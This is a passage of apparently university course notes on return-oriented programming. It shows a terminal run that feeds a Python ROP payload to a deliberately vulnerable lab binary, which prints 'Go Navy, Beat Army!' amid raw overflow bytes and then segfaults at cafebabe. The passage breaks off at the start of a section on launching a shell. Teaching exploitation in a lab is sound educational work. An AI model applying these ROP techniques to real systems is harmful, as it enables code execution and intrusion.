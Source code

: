 And it works:

``` example
user@si485H-base:demo$ ./vulnerable `python print_string_rop.py "Go Navy, Beat Army!"`
Buf: ++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++z`F?
                                                                                                                        GGGGﾭަ??????]`z??????@z`F?
                                                                                                                                                ooooﾭަ??????]`z??????@z`F?
                                                                                                                                                                        fﾭަ??????]`z??????@z`F?
                                                                                                                                                                                             NNNNﾭަ??????]??????@z`F?
        aaaaﾭަ??????]`z??????@z`F?
                                vvvvﾭަ??????]`z??????@z`F?
                                                        yyyyﾭަ??????]`z??????@z`F?
                                                                                ,,,,ﾭަ??????]`z??????@z`F?
                                                                                                        fﾭަ??????]`z??????@z`F?
                                                                                                                             BBBBﾭަ??????]`z??????@z`F?
                                                                                                                                                     eeeeﾭަ??????]`z??????@z`F?
                                                                                                                                                                             aaaaﾭަ??????]`z??????@z`F?
                                                                                                                                                                                                     tttﾭަ??????]`z??????@z`F?
                 fﾭަ??????]`z??????@z`F?
                                      AAAAﾭަ??????]`z??????@z`F?
                                                              rrrrﾭަ??????]`z??????@z`F?
                                                                                      mmmmﾭަ??????]`z??????@z`F?
                                                                                                              yyyyﾭަ??????]`z??????@z`F?
                                                                                                                                      !!!!ﾭަ??????]`z??????@z`?ﾭ?ffffffffffﾭަ??????]`z??????@????
Go Navy, Beat Army!
Segmentation fault (core dumped)
user@si485H-base:demo$ dmesg | tail -1
[1565900.040307] vulnerable[11345]: segfault at cafebabe ip cafebabe sp bffff654 error 15
```

## Launching a shell

We have everything we need to also launch a shell. It is the
same as writing an 'A' but now we also have to set up the other
registers slightly differently. Recall, this is what we need:
